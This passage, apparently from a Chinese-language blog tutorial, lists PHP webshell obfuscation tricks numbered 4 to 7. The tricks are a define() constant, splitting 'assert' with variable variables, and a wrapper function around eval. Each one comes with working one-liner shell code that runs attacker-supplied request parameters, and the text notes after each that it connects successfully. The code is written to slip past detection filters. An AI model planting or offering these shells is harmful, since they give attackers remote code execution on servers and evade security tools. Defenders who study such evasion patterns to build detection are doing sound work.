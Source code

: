 #### 4.通过end函数代替[]

这里的end函数的作用是输出数组中当前元素和最后一个元素的值，这里由于传参就一个，所以就直接输出我们传参的值，从而可以传入参数，这里就是我们传入参数相当于shell里的传参

测试可以正常连接

#### 5.通过常量去绕过

```
&lt;?php define("a","$_GET[1]");eval(a);?&gt;
```

这里的关键在于define函数，这个函数的作用是定义一个常量<br/> 我们这里设置一个常量为a，它的值是$_GET[1]，然后再去eval执行常量a，实际就是eval($_GET[1]);,从而达到绕过的目的

测试可以正常连接

#### 6.字符串拼接+双美元符​​​​​​​

```
&lt;?php

$a='ass';

$b='ert';

$funcName=$a.$b;

$x='funcName';

$$x($_REQUEST[1]);

?&gt;
```

这里通过把关键的assert进行分割，然后拼接，然后通过$$,利用可变变量去执行

测试可以正常连接

#### 7.通过函数定义绕过

```
&lt;?php

function a($a){

return $a;}

eval(a($_REQUEST)[1]);

?&gt;
```

这里设置一个用户自定义函数a,当里面有参数时，返回该参数的内容，这里shell里的<br/> a($_REQUEST)[1] 的实际效果为 a($_REQUEST),相当于是a($a)，会返回$a的内容，结果为<br/> $_REQUEST，最后一行的实际内容为eval($_REQUEST[1]);

测试可以正常连接
